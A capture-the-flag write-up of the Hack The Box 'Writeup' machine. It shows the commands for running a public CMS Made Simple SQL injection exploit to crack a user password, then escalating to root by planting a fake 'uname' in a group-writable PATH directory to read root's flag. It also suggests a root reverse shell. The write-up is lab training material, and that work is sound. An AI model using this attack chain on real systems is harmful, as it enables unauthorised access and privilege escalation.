




### Improved ability

- CVE Research
- Source code review
- PATH based privilege escalation

### Used tools

- nmap
- searchsploit
- pspy64

---

## Introduction & Foothold:

Let’s start with a common full **nmap** scan on the box:

```bash
$ nmap -A 10.10.10.138
```



The only available ports are the **port 22** (with *OpenSSH 7.4p1*) and the **port 80**, running *Apache httpd 2.4.25*. Because of this version of OpenSSH doesn’t have known vulnerability, let’s analyze the root and `/writeup/` folder (contained into the *robots.txt*) with a web browser.

Once inside the root, we will prompted with an old-school floppy-disk background and a tips saying that because the site was attacked, it has been implemented a **DoS protection** that potentially can block us from performing brute-force enumeration.


Let’s move analyze the `/writeup/` folder:



Here we can find some old writeups, but nothing very useful. However, looking at the **source code**, we are able to find the first important information: the **CMS type**.



Now that we know our target use **CMS Made Simple**, we can search online for public exploit. Suddenly, though the usage of **searchsploit** we found the right script to compromise our target

```bash
$ searchsploit 'cms made simple'
--------------------------------------------------------------------------------------------------------------------
Exploit Title                                                                       | Path 
---------------------------------------------------------------------------------------------------------------------
CMS Made Simple (CMSMS) Showtime2 - File Upload Remote Code Execution (Metasploit)  | exploits/php/remote/46627.rb
CMS Made Simple 0.10 - 'Lang.php' Remote File Inclusion                             | exploits/php/webapps/26217.html
CMS Made Simple 0.10 - 'index.php' Cross-Site Scripting                             | exploits/php/webapps/26298.txt
CMS Made Simple 1.0.2 - 'SearchInput' Cross-Site Scripting                          | exploits/php/webapps/29272.txt
...
CMS Made Simple < 2.2.10 - SQL Injection                                            | exploits/php/webapps/46635.py
```

## Gaining access as jkr

Analysing every record, notice how the **SQL injection exploit** (*46635*) is valid for every version under the 2.2.10. Download and execute the script!

[Offensive Security's Exploit Database Archive](https://www.exploit-db.com/exploits/46635)

```bash
$ searchsploi -m 46635
$ python 46635.py -u http://10.10.10.138/writeup/ --crack -w /usr/share/wordlist/rockyou.txt
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
[+] Password cracked: raykayjay9
```

Good! We have the user password. Now we can login into the box as **jkr** and proceeds to the privilege escalation phase.

```
$ ssh jkr@10.10.10.138
$ cat /home/jkr/user.txt
d4e493fd4068af...
```

## Privilege Escalation

After looking for a long time for passwords, misconfiguration or other forms of escalation, I decided to take a closer look to every process running on the machine, so I downloaded **pspy** and launched it.



After a while, mine attention were caught by these few lines:

```bash
2019/10/11 10:35:58 CMD: UID=0    PID=2279   | sshd: [accepted]
2019/10/11 10:35:58 CMD: UID=102  PID=2280   | sshd: [net]   
2019/10/11 10:36:00 CMD: UID=0    PID=2281   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new     
2019/10/11 10:36:00 CMD: UID=0    PID=2282   | run-parts --lsbsysinit /etc/update-motd.d
2019/10/11 10:36:00 CMD: UID=0    PID=2283   | /bin/sh /etc/update-motd.d/10-uname
2019/10/11 10:36:00 CMD: UID=0    PID=2284   | /bin/sh /etc/update-motd.d/10-uname
2019/10/11 10:36:00 CMD: UID=0    PID=2285   | sshd: jkr [priv]
```

It seems that every time someone logs in, the `/etc/update-motd.d/10-uname` script is executed. 

The contents of the scripts are the following:

```bash
jkr@writeup:/etc/update-motd.d$ cat 10-uname
#!/bin/sh
uname -rnsom
jkr@writeup:/etc/update-motd.d$ uname -rnsom
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux
```

It is clear the script execute a `uname` without using any kind of path, searching the right binary into the **$PATH** variable.

In case we are able to write inside one of the directories contained in `$PATH` and before the script identifies the original uname binary, *we can run arbitrary code as root and execute our escalation* (that because the `10-uanme` process run with *UID=0*, so it runs as root)

`$PATH` contains the following directories:

```bash
jkr@writeup:/home/jkr$ ls -l -d /usr/local/sbin /usr/local/bin /usr/sbin /usr/bin /sbin /bin
drwxr-xr-x 2 root root   4096 Apr 19 04:24 /bin
drwxr-xr-x 2 root root   4096 Apr 19 04:14 /sbin
drwxr-xr-x 2 root root  20480 Apr 24 13:13 /usr/bin
drwx-wsr-x 2 root staff 20480 Jul 10 17:27 /usr/local/bin
drwx-wsr-x 2 root staff 12288 Jul 10 17:23 /usr/local/sbin
drwxr-xr-x 2 root root   4096 Apr 19 07:31 /usr/sbin
```

two of which allow *staff* group users to write into them.

Because jkr is part of the staff group, we are able to create a custom script named *uname* that will be executed in place of the original script once someone logs in.

```bash
jkr@writeup:/etc/update-motd.d$ echo "cat /root/root.txt" > /usr/local/sbin/uname
jkr@writeup:/etc/update-motd.d$ chmod +x /usr/local/sbin/uname
jkr@writeup:/etc/update-motd.d$ exit
root@0xbro:~/Documents/CTF/HTB/Writeup# ssh jkr@10.10.10.138
jkr@10.10.10.138's password:
eeba47f60b48ef92...

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Jul 10 17:35:19 2019 from 10.10.15.117
jkr@writeup:~$
```

Once this escalation has been found, it is possible get a reverse shell as root rather than performing other actions as superuser.

# Trophy

>[!quote]
>The only way of discovering the limits of the possible is to venture a little way past them into the impossible.
>
>\- Arthur C. Clarke
